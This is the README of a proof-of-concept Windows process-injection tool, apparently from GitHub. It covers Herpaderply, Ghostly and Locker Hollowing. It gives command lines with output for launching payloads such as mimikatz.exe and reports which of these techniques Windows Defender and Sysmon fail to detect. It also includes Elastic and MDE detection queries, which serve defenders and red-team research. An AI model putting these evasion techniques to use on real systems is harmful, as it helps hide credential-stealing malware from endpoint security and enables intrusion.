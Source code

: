 # Herpaderply Hollowing | Ghostly Hollowing | Locker Hollowing
This is just a PoC script of Herpaderply Hollowing, Ghostly Hollowing and Locker Hollowing. See how to encrypt payload and self inject in [PELoader](https://github.com/Hagrid29/PELoader).

Process Locker is my version of variation of Process Herpaderping. Instead of overwriting the payload just after the execution, Process Locker duplicate the file handle of payload to a running process in order to "lock" the file. The "locked" payload usually not examined by AV/EDR.


Credits: most of my work was based on @hasherezade's [PoC](https://github.com/hasherezade/transacted_hollowing).

## Characteristics of each hollowing 

- Payload mapped as `MEM_IMAGE`
- Sections mapped with original access rights (no `RWX`)
- Payload connected to PEB as the main module

### Herpaderply Hollowing

Herpaderply Hollowing is a hybrid between Process Hollowing and [Process Herpaderping](https://jxy-s.github.io/herpaderping/)

![HerpaderplyHollowing](img/HerpaderplyHollowing.png)

Process Herpaderping

```
cmd> .\ProcLocker.exe herpaderp process callback.exe 
```

Herpaderply Hollowing

```
cmd> .\ProcLocker.exe herpaderp hollow callback.exe 
[+] Created temp file: C:\Users\XXX\AppData\Local\Temp\TH1F9C.tmp
[+] Written!
[+] Overwriting file content
[+] Created Process PID: 21812
[+] Resuming PID 21812
[+] Done!
```



Windows Defender detect Process Herpaderping while failed to detect Herpaderply Hollowing

Elastic suggest to identify process execution followed by a file overwrite of an executable by the same parent process. [ref](https://www.elastic.co/guide/en/security/current/potential-process-herpaderping-attempt.html)

```
sequence with maxspan=5s [process where event.type == "start" and
not process.parent.executable :
"C:\\Windows\\SoftwareDistribution\\*.exe"] by host.id,
process.executable, process.parent.entity_id [file where event.type
== "change" and event.action == "overwrite" and file.extension ==
"exe"] by host.id, file.path, process.entity_id
```



### Ghostly Hollowing

[Ghostly Hollowing](https://github.com/hasherezade/transacted_hollowing#ghostly-hollowing) is a hybrid between Process Hollowing and Process Ghosting

![GhostlyHollowing](img/GhostlyHollowing.png)

Process Ghosting

```
cmd> .\ProcLocker.exe ghost process mimikatz.exe
```

Ghostly Hollowing

```
cmd> .\ProcLocker.exe ghost hollow callback.exe
```



Windows Defender failed to detect Process Ghosting and Ghostly Hollowing.

The program map the payload from a delete pending file. It could be an indicator of process ghosting or ghostly hollowing. I wrote a MDE rule for example below.

```
DeviceImageLoadEvents
| where TimeStamp >= ago(1h)
| where SHA1 == ""
```



### Locker Hollowing

Locker Hollowing is a hybrid between Process Hollowing and Process Locker.

![LockerHollowing](img/LockerHollowing.png)

Locker Hollowing

```
.\ProcLocker.exe locker process mimikatz.exe 19408 auto
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH82F6.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked 
[+] Process created! Pid = 11976
[+] Done!
```

First "lock" the payload by duplicating file handle to a running process. Then map the payload from the "locked" file and execute it. Finally, clean up the "locked" payload.

```
cmd> .\ProcLocker.exe lock mimikatz.exe 19408
[+] Created temp file: C:\Users\xxx\AppData\Local\Temp\TH1827.tmp
[+] Written!
[+] Duplicating file handle to 19408
[+] File locked

cmd> .\ProcLocker.exe locker process TH1827.tmp 19408 exec
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Process created! Pid = 12080
[+] Done!

.\ProcLocker.exe clear TH1827.tmp 19408 
[+] Getting system handle list
[+] Found remote file handle of "\Users\xxx\AppData\Local\Temp\TH1827.tmp"
[+] Duplicating file handle to current process
[+] Releasing the file handle. You can manually remove the file
[+] Overwriting file content
```



Windows Defender detect Process Lockering while failed to detect Locker Hollowing.

The program map the payload from a "locked" file. It could be an indicator of process Lockering.



### Sysmon Event ID 25

Sysmon Event ID 25 triggers "when the mapped image of a process doesn't match the on-disk image file, or the image file is locked for exclusive access."

It would be logged for process herpaderping, process ghosting and process lockering. However, it would not be logged for Herpaderply Hollowing, Ghostly Hollowing or Locker Hollowing.

![detection-of-process-lockering](img/detection-of-process-lockering.png)

![detection-of-process-ghosting](img/detection-of-process-ghosting.png)



## References

* https://jxy-s.github.io/herpaderping/
* https://github.com/hasherezade/transacted_hollowing
* https://www.x86matthew.com/view_post?id=hijack_file_handle



